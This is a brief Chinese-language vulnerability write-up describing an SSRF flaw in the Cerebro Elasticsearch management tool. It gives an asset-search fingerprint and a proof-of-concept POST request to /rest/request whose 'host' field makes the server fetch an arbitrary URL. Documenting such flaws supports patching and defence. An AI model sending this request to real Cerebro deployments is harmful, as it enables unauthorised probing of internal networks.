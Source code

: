 # Cerebro request SSRF漏洞

# Cerebro request SSRF漏洞

## 漏洞描述

Cerebro是使用Scala、Play Framework、AngularJS和Bootstrap构建的开源的基于Elasticsearch Web可视化管理工具。您可以通过Cerebro对集群进行web可视化管理，如执行rest请求、修改Elasticsearch配置、监控实时的磁盘，集群负载，内存使用率等。其中某功能存在SSRF漏洞，攻击者通过发送特定的请求包可以探测内网信息

## 漏洞影响

```
Cerebro
```

## 网络测绘

```
app="Cerebro"
```

## 漏洞复现

主页面

![image-20220524143249335](/images/202205241432380.png)

发送请求包

```
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

![](/images/202205241433022.png)

